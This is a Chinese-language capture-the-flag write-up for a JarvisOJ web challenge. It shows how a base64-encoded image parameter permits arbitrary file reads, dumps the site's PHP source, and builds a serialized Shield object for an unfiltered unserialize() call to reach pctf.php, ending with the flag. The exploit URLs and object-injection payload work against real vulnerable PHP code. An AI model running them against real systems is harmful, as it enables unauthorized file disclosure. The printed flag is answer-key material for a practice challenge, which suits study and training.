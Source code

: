 ## 描述

这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

题目入口：http://web.jarvisoj.com:32768/

## 题解

```html
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

图片请求的链接是 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLmpwZw==

图片我保存到了 [shield.jpg](./assets/shield.jpg)

`strings` 和 `binwalk` 了下这个照片，没发现啥信息。打开 010 Editor 也没看出啥，估计这个图片不是关键点所在。

用 Base64 解密 `c2hpZWxkLmpwZw==` 得到 `shield.jpg`，似乎用处不大。

尝试伪造一个文件名 `shielde.jpg`，得到

```html
<br />
<b>Warning</b>:  readfile(shielde.jpg): failed to open stream: No such file or directory in <b>/opt/lampp/htdocs/showimg.php</b> on line <b>7</b><br />
```

似乎要伪造这个参数来搞事情？不会不会，看题解。

麻蛋。。。。。。。这不就可以任意文件读取了吗。。。

先看看这个 `showimg.php`，http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA= ，得到

```php
<?php
    $f = $_GET['img'];
    if (!empty($f)) {
        $f = base64_decode($f);
        if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        && stripos($f,'pctf')===FALSE) {
            readfile($f);
        } else {
            echo "File not found!";
        }
    }
?>
```

然后又不会了。。。继续看题解。。。麻蛋，居然有 `index.php` 这玩意，构造链接 http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw 然后得到

```php
<?php 
    require_once('shield.php');
    $x = new Shield();
    isset($_GET['class']) && $g = $_GET['class'];
    if (!empty($g)) {
        $x = unserialize($g);
    }
    echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

有个 `shield.php`，继续看下去 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocA==

```php
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
```

好的，看到注释了没？访问 http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=

但是，居然不行！问题出在最开始的 `showimg.php` 里，那里有一个判断路径里不能出现 `pctf`。

查询一下官方文档 `stripos` 这个函数，没啥发现。看题解！发现自己漏关注了 `index.php` 这个文件。。

这个文件里有一个 `class` 的参数！可以赋值到 `x` 内，同时 `class` 是无过滤的！所以我们初始化一个 `filename` 为 `pctf.php` 的 `Shield`，然后序列化传到 `class` 参数。稳！

找个地方运行

```php
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }
    }
    $x = new Shield("pctf.php");
    echo serialize($x);
```

得到 `O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`，所以构造链接 http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;} 便可以得到

```html
<?php 
    //Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
    //Fake flag:
    echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

## 答案

PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
